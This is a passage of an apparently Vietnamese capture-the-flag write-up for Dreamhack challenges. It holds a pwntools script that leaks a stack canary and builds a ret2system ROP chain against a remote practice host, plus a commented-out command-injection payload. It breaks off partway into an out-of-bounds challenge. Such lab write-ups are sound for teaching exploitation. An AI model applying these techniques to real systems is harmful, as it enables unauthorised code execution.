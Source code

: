 Exploit :

- leak canary
- ret2system
- vì hàm system có sẵn nên kh cần leak libc


script :
```
#!/usr/bin/python3

from pwn import *
context.binary = exe = ELF('./rtl',checksec=False)
libc = exe.libc
#p = process()
p = remote('host3.dreamhack.games', 16666)
#payload = b'a'*32 
#payload += b'ifconfig ;cat flag'
#p.sendlineafter(b'name: ',payload)
#p.recvuntil(b'a'*57)
#leak = p.recv(7)
#leak = int(leak,16)
#print(hex(leak))
payload =b'a'*56
payload += b'|'
p.sendafter(b'Buf: ',payload)
p.recvuntil(b'|')
leak = u64(b'\0'+ p.recv(7))
print("leak: ",hex(leak))
payload = b'a'*56
payload += p64(leak)
payload += p64(0)
payload += p64(0x0000000000400285)
payload += p64(0x0000000000400853)  #pop rdi
payload += p64(0x400874)
payload += p64(0x4005d0)
p.sendlineafter(b'Buf: ',payload)

#gdb.attach(p)
p.interactive()
```

----------


9 . out_of_bound
-----


chương trình sẽ thực thi command idx , vì vậy ta cần lưu địa chỉ chứa chuỗi cat flag ở command[idx] để system gọi đến 

![image](https://hackmd.io/_uploads/B1Ey1UdQ1g.png)

ta thấy nó sẽ tính toán idx ở đây , 
